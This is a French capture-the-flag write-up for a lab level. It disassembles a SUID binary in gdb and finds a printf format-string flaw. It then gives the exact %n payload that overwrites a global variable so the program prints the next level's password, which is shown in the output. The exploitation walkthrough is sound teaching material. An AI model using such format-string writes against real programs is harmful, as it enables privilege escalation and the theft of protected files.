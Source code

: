 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
  [...]
  ```
    - On a un binaire appartenant a level5 dans le home avec les droits SUID.

- `./level4`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - `test`
    - Le programme affiche le paramètre qu'on lui donne

- `gdb level4`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x08048444  p
      0x08048457  n
      0x080484a7  main
    [...]
    ```
    - on trouve une fonction n() et une fonction p() en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x080484a7 <+0>:	push   ebp
       0x080484a8 <+1>:	mov    ebp,esp
       0x080484aa <+3>:	and    esp,0xfffffff0
       0x080484ad <+6>:	call   0x8048457 <n>
       0x080484b2 <+11>:	leave
       0x080484b3 <+12>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire, alignement de la stack<br/><br/>
    - <+6>
      - Call la fonction n()<br/><br/>
    - <+11> ... <+12>
      - Réinitialisation de la mémoire, fin d'exécution<br/><br/>

  - `disas n`
    ```asm
    Dump of assembler code for function n:
       0x08048457 <+0>:	push   ebp
       0x08048458 <+1>:	mov    ebp,esp
       0x0804845a <+3>:	sub    esp,0x218
       0x08048460 <+9>:	mov    eax,ds:0x8049804
       0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax
       0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200
       0x08048471 <+26>:	lea    eax,[ebp-0x208]
       0x08048477 <+32>:	mov    DWORD PTR [esp],eax
       0x0804847a <+35>:	call   0x8048350 <fgets@plt>
       0x0804847f <+40>:	lea    eax,[ebp-0x208]
       0x08048485 <+46>:	mov    DWORD PTR [esp],eax
       0x08048488 <+49>:	call   0x8048444 <p>
       0x0804848d <+54>:	mov    eax,ds:0x8049810
       0x08048492 <+59>:	cmp    eax,0x1025544
       0x08048497 <+64>:	jne    0x80484a5 <n+78>
       0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
       0x080484a0 <+73>:	call   0x8048360 <system@plt>
       0x080484a5 <+78>:	leave
       0x080484a6 <+79>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 536 octets pour la stack)<br/><br/>
    - <+9> ... <+35>
      - Stocke dans eax la valeur du data segment register 0x8049804
        - `x/s 0x8049804`
          - `0x8049804 <stdin@@GLIBC_2.0>:	 ""`
      - Stocke la valeur de eax (stdin) sur la stack (à esp + 8)
      - Stocke 0x200 (512) sur la stack (à esp + 4)
      - Fait pointer eax sur ebp - 520
      - Stocke eax (l'adresse ebp - 520) sur la stack (à esp)
      - Call fgets() avec les arguments stockés sur la stack<br/><br/>
    - <+40> ... <+49>
      - Fait pointer eax sur ebp - 520 => l'adresse du retour de fgets()
      - Stocke eax (l'adresse du retour de fgets()) sur la stack (à esp)
      - Call la fonction p() avec l'argument stocké sur la stack<br/><br/>
    - <+54> ... <+73>
      - Stocke dans eax la valeur du data segment register 0x8049810
        - `x/s 0x8049810`
          - `0x8049810 <m>:	 ""`
      - Compare eax (la valeur de la globale m) avec 0x1025544 (16930116)
        - Jump à <+78> si la comparaison est fausse
        - sinon:
          - Stocke la la valeur de 0x8048590 sur la stack (à esp)
            - `x/s 0x8048590`
              ```
              0x8048590:	 "/bin/cat /home/user/level5/.pass"
              ```
          - Call system() avec l'argument stocké sur la stack<br/><br/>
    - <+78> ... <+79> <= Jump conditionnel depuis <+64>
      - Réinitialisation de la mémoire, fin d'exécution

  - `disas p`
    ```asm
    Dump of assembler code for function p:
       0x08048444 <+0>:	push   ebp
       0x08048445 <+1>:	mov    ebp,esp
       0x08048447 <+3>:	sub    esp,0x18
       0x0804844a <+6>:	mov    eax,DWORD PTR [ebp+0x8]
       0x0804844d <+9>:	mov    DWORD PTR [esp],eax
       0x08048450 <+12>:	call   0x8048340 <printf@plt>
       0x08048455 <+17>:	leave
       0x08048456 <+18>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 24 octets pour la stack)<br/><br/>
    - <+6> ... <+12>
      - Stocke dans eax la valeur à ebp + 12 (son premier argument)
      - Stocke eax sur la stack (à esp)
      - Call printf avec l'argument stocké sur la stack
    - <+17> ... <+18>
      - Réinitialisation de la mémoire, fin d'exécution

## Exploit

Ca resemble fortement au niveau précédent, il n'y a même que 3 différences:
- on a une fonction en plus qui fait le call a printf
- m est comparé à 16930116
- le programme ne pop pas un shell mais nous cat directement le contenu du fichier .pass

On cherche l'offset de notre format string:
- `echo "AAAA %x %x %x %x" | ./level4`
  ```
  AAAA b7ff26b0 bffff754 b7fd0ff4 0
  ```
- `echo "AAAA %x %x %x %x %x %x %x %x" | ./level4`
  ```
  AAAA b7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510
  ```
- `echo "AAAA %x %x %x %x %x %x %x %x %x %x %x %x" | ./level4`
  ```
  AAAA b7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 41414141
  ```
  - Ca y est ! On sait que l'on commence à lire sur la format string au 12eme paramètre (41414141)

On lance notre payload malicieux avec 16930112 de padding (16930116 - les 4 octets nécessaires pour notre adresse)
- `python -c 'print "\x10\x98\x04\x08%1$16930112d%12$n"' | ./level4`
  ```
               -1208015184
  0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
  ```
